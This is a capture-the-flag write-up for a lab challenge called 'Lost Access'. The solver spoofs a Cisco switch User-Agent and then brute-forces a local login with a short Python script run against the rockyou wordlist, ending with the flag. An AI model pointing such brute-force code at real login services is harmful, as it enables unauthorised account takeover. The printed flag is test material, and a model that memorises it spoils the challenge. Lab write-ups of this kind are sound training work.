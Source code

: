 ## Lost Access

## Description
```
Professor Wernig apparently lost access to his beloved `Catalyst 9300X Switch` from Cisco.
The only information he gave us was his username `CCIE`.

Can you obtain his lost access?
```

## Writeup

Starting off, we should take a look at the website. <br/>
```sh
$ curl http://127.0.0.1/
No credentials provided!
```

Seeing this we should try out some different formats to pass credentials. <br/>
```sh
$ curl -d 'username=test&password=test' http://127.0.0.1/
Can only connect from same device-type!
```

Seeing this we should try to add a `User-Agent` to the request. <br/>
The description especially highlights `Catalyst 9300X Switch` which indicates that this device is probably meant. <br/>
```sh
$ curl -X GET -d 'username=test&password=test' http://127.0.0.1/ -H "User-Agent: Catalyst 9300X Switch"
Can only connect from same device-type!
```

This should indicate that it's the wrong `User-Agent`. <br/>
Searching `Catalyst 9300X Switch` in any search-engine should lead to some website from Cisco like [this one](https://www.cisco.com/c/en/us/products/collateral/switches/catalyst-9300-series-switches/nb-06-cat9300-ser-data-sheet-cte-en.html). <br/>
On the websites we find certain abbreviations for the product `Catalyst 9300X Switch` like `C9300X`, `Catalyst 9300X`, `Catalyst 9300`. <br/>
After testing the different abbreviations as `User-Agent` we can get one to work. <br/>
```sh
$ curl -X GET -d 'username=test&password=test' http://127.0.0.1/ -H "User-Agent: C9300X"               
Unknown user!
```

Using the `username` from the description we get a new error. <br/>
```sh
$ curl -X GET -d 'username=CCIE&password=test' http://127.0.0.1/ -H "User-Agent: C9300X"
Wrong password!
```

Passing all checks except the password we are only left with the choice to bruteforce the password as there is no other option left and the description doesn't give any information on the password. <br/>
For this purpose we can write a small python script. <br/>
```py
import requests

base_URL = 'http://127.0.0.1/'

for line in open('/usr/share/wordlists/rockyou.txt', 'r'):

    forms = {
        'username': 'CCIE',
        'password': line.strip()
    }

    headers = {
        'User-Agent': 'C9300X'
    }

    res = requests.get(base_URL, headers=headers, data=forms)

    if res.text != 'Wrong password!':
        print(res.text)
        break
```

Executing the script it takes a while before we get a result. <br/>
```sh
$ python3 try.py 
You shall pass!
Get your Flag here: TH{56b194fa-f370-11ee-9154-4f5ae030831c}
```

Obtaining the flag concludes this writeup.